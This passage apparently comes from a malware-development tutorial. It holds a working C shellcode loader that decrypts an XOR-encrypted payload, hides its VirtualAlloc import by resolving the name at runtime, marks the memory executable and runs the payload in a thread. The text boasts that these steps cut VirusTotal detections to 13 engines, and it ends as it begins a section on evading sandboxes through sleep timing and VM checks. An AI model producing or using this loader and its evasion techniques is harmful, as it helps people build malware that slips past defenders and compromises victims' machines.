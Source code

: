 ```c 
int main(void) {
  void * payload_mem; // memory buffer for payload
  BOOL result;
  HANDLE thread_handle;
  DWORD oldprotect = 0;
  
  // decrypt payload
  deXOR((char*)payload, sizeof(payload), secretKey, sizeof(secretKey));
  deXOR((char*)cVirtualAlloc, sizeof(cVirtualAlloc), secretKey, sizeof(secretKey));

  // allocate memory buffer for payload
  HMODULE kernel = GetModuleHandle("kernel32.dll");
  pVirtualAlloc = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(kernel, (LPCSTR)cVirtualAlloc);
  payload_mem = pVirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

   // copy payload to buffer
  RtlMoveMemory(payload_mem, payload, sizeof(payload));

  // make new buffer as executable
  result = VirtualProtect(payload_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldprotect);
  if ( result != 0 ) {
  // run payload
    thread_handle = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) payload_mem, 0, 0, 0);
    WaitForSingleObject(thread_handle, -1);
  }
  return 0;
}
```

#### Result 
We finally hide our VirtualAlloc call, and by uploading it to virus total we reduce the number of engines that recognize it malicious to 13.
![hidecall3](assets/images/maldev/8/call3.png)

## Evasion dynamic analysis 

### Main C implementation

This is about sleep interval calculation again but we should be able to see if we are in a vm or not (with some adjustement) :
